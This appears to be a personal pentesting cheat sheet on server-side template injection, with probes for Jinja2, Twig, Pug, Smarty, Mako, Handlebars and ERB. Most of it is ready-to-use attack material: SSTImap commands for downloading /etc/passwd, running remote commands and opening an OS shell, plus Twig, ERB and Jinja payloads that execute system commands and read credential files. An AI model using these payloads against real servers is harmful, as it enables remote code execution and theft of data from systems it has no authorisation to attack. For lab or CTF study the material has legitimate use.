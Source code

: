 #php #nodejs #python
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Make (python)
	* ${7 * 7}
6. handlebars (node)
	* `{{7+7}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git

python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='

# Download remote file
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# Execute remote command
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# OS shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

#### Twig
[[twig]]
```twig
{{['id',""]|sort('passthru')}}

{{ _self }}

{{ "/etc/passwd"|file_excerpt(1,-1) }}

{{ ['id'] | filter('system') }}
```

#### [[ERB]] 
#ruby
```ruby
<%= eval('system("whoami")') %>
```

#### Jinja
[[jinja]]
```jinja2
{{ config.items() }}

{{ self.__init__.__globals__.__builtins__ }}

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```
##### Identification guide
![[identify SSTI.png]]